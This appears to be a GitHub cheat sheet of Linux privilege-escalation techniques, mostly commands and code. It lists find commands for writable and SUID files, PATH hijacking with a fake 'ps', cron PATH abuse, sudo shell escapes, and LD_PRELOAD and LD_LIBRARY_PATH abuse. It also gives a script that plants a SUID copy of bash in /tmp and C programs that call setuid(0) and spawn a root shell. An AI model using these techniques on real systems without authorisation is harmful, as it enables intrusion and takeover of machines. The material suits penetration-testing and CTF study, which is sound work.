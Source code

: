- [Find](#Find)
- [PATH_Variable](#PATH_Variable)
- [SUID](#SUID)
- [Cronjob](#Cronjob)
- [Sudo](#Sudo)
- []()
- []()
- []()
- []()
- [Case_study_1](#case_study_1)
- [Tools](#Tools)
--------------------------------------------------------------------------------------------------------------------------------
# Find

### Find word writable files
```
- find / -writable -type d 2>/dev/null
- find / -writable -type f 2>/dev/null
- find / -perm -222 -type d 2>/dev/null
- find / -perm -o w -type d 2>/dev/null
- find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```
### Find word writable folder
```
- find / -perm -o x -type d 2>/dev/null
```

### Find 
```
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
```
--------------------------------------------------------------------------------------------------------------------------------
# PATH_Variable

#### Check the PATH
```
echo $PATH
```

#### case study one
- Binary file with SUID permission
  - check what the file do
  - for example *which linux commad use*
    - in our case we use *ps* command
- Create malicious file
  - echo "/bin/bash" or "/bin/sh" > /tmp/ps
  - chmod 777 /tmp/ps
  - *OR*
  - cp /bin/sh /tmp/ps
  - *OR*
  - ln -s /bin/sh /tmp/ps
    - export PATH=.:$PATH
- check PATH
  - echo $PATH
- change $PATH (add tmp folder)
  - export PATH=/tmp:$PATH
- run SUID binary
--------------------------------------------------------------------------------------------------------------------------------
# SUID
- SUID: executed with the privileges of the file owner
- SGID: executed with the privileges of the file group

#### Searching SUID file (SUID file is a special type of file permission given to a file
- find / -perm -u=s -type f 2>/dev/null
- find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} ; 2> /dev/null
- find / -perm -4000 -type f 2>/dev/null
- find / -uid 0 -perm -4000 -type f 2>/dev/null
- find / -type f -perm -g+s -exec ls -ald {} \; 2>/dev/null
- find / -user root -perm -002 -type f -not -path "/" 2>/dev/null
- find / -writable -type f 2>/dev/null>

### tip 'check suid/sgid files data'

#### Use strace for track suid file execute
```
strace /suid/file/path 2>&1 | grep -iE "open|access|no such file"
strace -v -f -e execve /suid/file/path 2>&1 | grep service
```
--------------------------------------------------------------------------------------------------------------------------------
# Cronjobs 
- crontab -l
- ls -alh /var/spool/cron
- ls -alh /var/spool/crontabs
- ls -al /etc/ | grep cron
- ls -al /etc/cron*
- ls -alh -R /etc/cron*

#### PATH Environment Variable
```
crontab *PATH* env variable is by default set to /usr/bin:/bin
The PATH variable can be overwritten in the crontab file
If the cron job progam/script does not use an absolute path and one of the PATH directories is wrtietable by our user, we my be able to crete a program/script with the same name as the cron job
```
# SUDDO

### Useful commands
- Run program using sudo
  - sudo [program]
- Run porgram as specific user
  - sudo -u [username] [program]
- List programs a user allowed to run:
  - sudo -l

#### Other way to privileges
- sudo -s
- sudo -i 
- sudo /bin/bash
- sudo passwd

#### gtfobins
- https://gtfobins.github.io/

#### Environment Variables
##### Program run through sudo can inherit the environment variables from the user's environment
in sudowrs config file if env_reset option is set sudo will run programs in a new, miniml env
config options are display when running sudo -l

### LD_PRELOAD
is an environment variable can be set to path of shared object (.so) file
When  set, the shared object will be loaded before any others.
By creating a custom .so and creating init() function, we can execute code as soon as teh object is loaded

sudo must be configured to preserve the LD_PRELOAD environment variable using the env_keep option

LD_PRELOAD will no work if the real user id is defferent from the effective user ID


##### LD_LIBRARY_PATH: env variable contains a set of directories where shared libraries are searched for first

ldd command can be used to pritn the shared libraries
```
ldd /usr/sbin/apache2
```
by createing a shared library with the same name as one used by a program  and setting LD_library_path to its parent  the program will load our shared_library instead 


#### PATH Environment Variable case study
```
for PATH=/home/user
create file in /home/user
content: 
 #!/bin/bash
 cp /bin/bash /tmp/rootbash
 chmod +s /tmp/rootbash
 chmod +s file.sh
 
 wait: watch -n 1 ls -l /tmp
```

#### Wildcards
--------------------------------------------------------------------------------------------------------------------------------
# Case_study_1
### Create usefull C file
```
int main()
{
  setuid(0);
  system("/bin/bash -p");
}
```
```
int main()
{
  setuid(0);
  setgid(0);
  execl("/bin/sh", "sh", 0)
}
```
gcc -o [name] [filename.c]
--------------------------------------------------------------------------------------------------------------------------------
# Tools

### Run usefull script for linux enumeration
- ***Linenum***: https://github.com/rebootuser/LinEnum
- ***Linuxprivchecker***: https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
- ***LinuxExploitSuggester***: https://github.com/mzet-/linux-exploit-suggester
- ***LinuxExploitSuggester2***: https://github.com/jondonas/linux-exploit-suggester-2
- ***LinuxPrivChecker***: https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
- ***LinuxSmartEnumeration***: https://github.com/diego-treitos/linux-smart-enumeration
